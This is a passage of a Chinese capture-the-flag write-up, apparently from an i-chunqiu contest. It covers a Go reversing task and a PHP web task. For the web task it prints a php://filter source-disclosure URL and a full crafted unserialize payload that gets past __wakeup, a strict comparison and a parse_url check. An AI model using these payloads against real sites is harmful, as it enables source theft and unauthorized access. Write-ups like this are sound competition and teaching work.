 ```
    s += chr(int(t4[i:i+2],16))
print(s)
```

### easyGo

直接搜字符串，然后找到判断的函数，有两个分支，在分支的那里下个断点，地址是0x495318
rsi就存着指向flag的指针



## Web

### JustSoso

http://de4acedff28d48cea2954306dabe3d3276d73be89c7c4e2d.changame.ichunqiu.com/index.php?file=php://filter/convert.base64-encode/resource=hint.php

伪协议拿到源码

Index.php里面得知hint.php

继续拿hint源码

发现构成反序列化的过程中有三个问题：

1.wakeup里面的属性清空：使用不正确的序列化对象可以避免wakeup的执行

2.getFlag函数里面的===，使用指针R，让token和token_flag始终相等

3.index里面的parse_url后的正则，使用///绕过

最终payload：

```
http://e5095d0258044ac28d26444770f6c4a04f5be24e59c54a3e.changame.ichunqiu.com///index.php?file=hint.php\&payload=O:6:%22Handle%22:2:{s:14:%22%00Handle%00handle%22;O:4:%22Flag%22:3:{s:4:%22file%22;s:8:%22flag.php%22;s:5:%22token%22;s:32:%2251311013e51adebc3c34d2cc591fefee%22;s:10:%22token_flag%22;R:4;}}
```

